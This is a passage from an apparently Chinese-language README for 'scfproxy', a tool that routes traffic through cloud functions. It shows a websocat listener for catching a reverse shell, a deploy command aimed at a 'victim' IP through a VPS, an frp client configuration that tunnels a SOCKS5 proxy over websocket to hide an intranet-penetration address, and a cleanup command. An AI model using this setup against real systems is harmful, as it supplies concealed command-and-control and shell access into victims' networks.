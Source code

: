 ```console
websocat ws-l:0.0.0.0:port - --binary -E --uncompress-zlib
```

效果如图：
![reverse_shell.png](img/reverse_shell.png)

#### 内网穿透地址隐藏

该使用场景需要支持 websocket 协议的内网穿透软件。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

以 frp 为例，客户端配置：

```ini
[common]
server_addr = reverse_proxy_domain
server_port = 80
tls_enable = true 
protocol = websocket

[plugin_sock5]
type = tcp
remote_port = 8080
plugin = socks5
use_encryption = true
use_compression = true
```

效果如图
![frp](img/frp.png)

### 清理

```console
scfproxy clear reverse -p provider_list -r region_list -o origin
```

`-o origin` 参数用于定位需要删除的服务

# 交流群

该项目仍处于测试阶段，可能存在一些 bug，欢迎提交 issue 或者进入微信群交流。
